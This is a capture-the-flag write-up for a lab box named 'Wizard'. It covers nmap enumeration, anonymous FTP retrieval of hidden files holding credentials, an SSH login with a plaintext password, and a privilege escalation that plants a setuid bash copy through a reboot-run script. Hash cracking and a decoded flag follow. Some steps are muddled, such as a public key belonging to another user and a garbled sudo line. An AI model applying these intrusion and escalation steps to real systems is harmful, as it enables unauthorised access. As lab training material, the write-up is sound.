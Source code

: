 # Wizard

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.197.180
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 14:30 BST
Nmap scan report for 10.10.197.180
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:15:19:70:35:fd:dd:0d:07:a0:50:a3:7d:fa:10:a0 (RSA)
|   256 a8:67:5c:52:77:02:41:d7:90:e7:ed:32:d2:01:d9:65 (ECDSA)
|_  256 26:92:59:2d:5e:25:90:89:09:f5:e5:e0:33:81:77:6a (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation
```bash
ftp 10.10.197.180

get .hidden
cd ...
get reallyHidden
```

### On the ftp server I found the hagrid creds so i used it
```bash
sshpass -p 'IAlreadySaidTooMuch' ssh hagrid@10.10.197.180

Matching Defaults entries for hagrid on hogwarts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hagrid may run the following commands on hogwarts:
    (root) NOPASSWD: /sbin/reboot
```
```bash
cd /home/harry
 
cat .ssh/id_rsa.pub :
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGY+dwBeKw2NtTbGLN+3hpg+qZ9ebXvfkU+UZ/iP0TFmGWaYM0hFyE9oVSoldBmLmvJAfpjFk/kgglcQ0r5rhahEPI+jIYr/retdOf8hZYpCRr21DbGt2fLF3Bu2Io/Uvhur/i9Tc5RwD5pgfGqHKrf1qul5x4dWK36NU+uIeIIDveTuAcKCmTBZzM1rkwwaj7UKDiJ/N9+/i6E+TEEsuXd/isF/zhGa4oQTLpthn79Y4SAeV+SzmeAWeJbvHZHe/KrvHIOvCJcSN9bjJh76QuIZnLKTWJrscaE0qkhG5890l1P6s0auNgUuOHN5ZgGYfHsmSGQRQUhXHplXXL6CKF alice@looking-glass
```
## Privilege Escalation

### I found a script, I used his vulnerability rights
```
vim /home/hagrid/hut.sh

cp /bin/bash /home/hagrid
chmod +xs bash

sudo -u root /sbin/reboot
```

### Log as ron and see the dumbledore.txt file in dumbledore's home

```bash
cat dumbledore.txt : 
e1f22cea2a1c41f047b36b505a6aede84a848209c69505ac17ffdaebd7ba63c98e69f68f755134d7b94d47d0c86c1aea72f39fa4e89457cf8b25f19cd1b2dd33 : peek

3984d0b5033258950d886bc760a867399e57d8cc396c74beeaefc51168ccc7d11369e882d2e591619c42192102d550fdebb59db528f88bb46cc1a33a30b0ec0a : into

1f4be9bd3c61e621ef43bb2e0a2d7836786f730e4e0e6aa546899bceab0571904dfc6efc94c1324b1a22ae446f0a995b533054b1dbd09d0cda03e0985786d59a : this

c9f4875d9269814e2ddf825ce769cb77702034225818d8cad8d46c6483693fa28b8d4e3e053d1facbd774b1fc5a2b4cc31ef41a1129e58fc149d383dc2f1b647 : fine

e75baca2466b6805bdcfc52a12160ffaaf05677dd947c5b3019710d43ea18010fcb6c9ec0cde94efcb23a68bf9c7595798e77f4ff0602f468377d15392465b69 : list

de6bcbd90ff00c604a836fe2a0959c6a86aeabd440d8982970613edff3cd27996cd4a21c005e4dd4dca89c9a5d7a46fa9d97d2b220521dddf3b376fd04f2d0ba : and

7afc42427607f5171b9db17b38c3953ad5e614955cedbba9cfb97a276f3f3bd83fcfe61bdbfc799ca83865e446f3ae47998a624fd7316e7e56f7b27c9d67f150 : maybe

263adce0f04ee1eb3e75528ed5251724906bdd44c4265a1cd1185af010a4561e153833d1ea46df69764f2ece8e33199f8d787bf39cc51ebb406f15480c7e780e : you

7f5a8bf8b1779e4802c8e86dd1ea8e096be633d64eb8b5610ae9267af670734de1bf740427d05d454f5d4080aedf2b0821c1f338cd507e9b0dc9a0145bbff303 : will

806b977f3edfeda024f63584cc232c7b53ca0bba09cf9818346070f6489e775232f19d33390a78ba14f301a41a0c6994c2f7d95be6f6faeff9243f8e38c131f7 : find

1f40fc92da241694750979ee6cf582f2d5d7d28e18335de05abc54d0560e0f5302860c652bf08d560252aa5e74210546f369fbbbce8c12cfc7957b2652fe9a75 : a

c9f4875d9269814e2ddf825ce769cb77702034225818d8cad8d46c6483693fa28b8d4e3e053d1facbd774b1fc5a2b4cc31ef41a1129e58fc149d383dc2f1b647 : fine

b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86 : password

496e20666163742c2074686973207761732073696d706c652c207472756c792c207468652070617373776f72642069732042794d65726c696e4265617264210a : In fact, this was simple, truly, the password is ByMerlinBeard!
```
### After decrypt the hashes, I got the dumbledore password
```
su dumbledore : ByMerlinBeard!
```

### I launch a linpeas and I found the harry ssh private key

### Connect as harry with id_rsa key
```bash
./linpeas

sudo -h strawgoh /bin/bash
```

### I used cyberchef with magic to decrypt the root flag hash (53565a4a52564d324d315648546b56474e6a564455303957533064525746705353314a5156454e4f537a6448556c425555553161565539574d6b5244576c4e57536c4a5156456b7a5530564d4e544a45527a5255553064464e45565a5454493354314a5652454d7a556c705156555a425054303950513d3d): 

## Root FLAG
Flag : EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}


